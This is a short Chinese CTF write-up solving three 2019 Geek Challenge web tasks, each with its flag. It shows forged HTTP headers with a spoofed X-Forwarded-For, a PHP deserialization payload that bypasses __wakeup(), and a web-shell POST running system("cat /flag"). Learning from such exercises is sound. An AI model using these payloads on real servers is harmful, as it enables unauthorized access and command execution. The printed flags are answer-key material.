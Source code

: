 # Web

## [极客大挑战2019]Http

按照提示一步步添加Header

```
Referer: https://www.Sycsecret.com
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
```

> flag{8ea3be2a-20b1-4ed2-85ea-e8ac575771aa}

## [极客大挑战2019]PHP

1. /www.zip下载源码
2. 序列化

```php
$a = new Name('admin',100);
$b=serialize($a);
echo $b;
// O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```
3. 修改序列化内容

```php
// 2 -> 3 : 绕过__wakeup()函数
// 加%00是因为username和password都是私有变量

// O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

> flag{9514e1f0-75ab-48f4-a621-2e517031a8ad}

## [极客大挑战2019]Knife

1. POST Syc=system("cat /flag");

> flag{5703c527-e70a-420e-9ad0-ac5786d1b4a7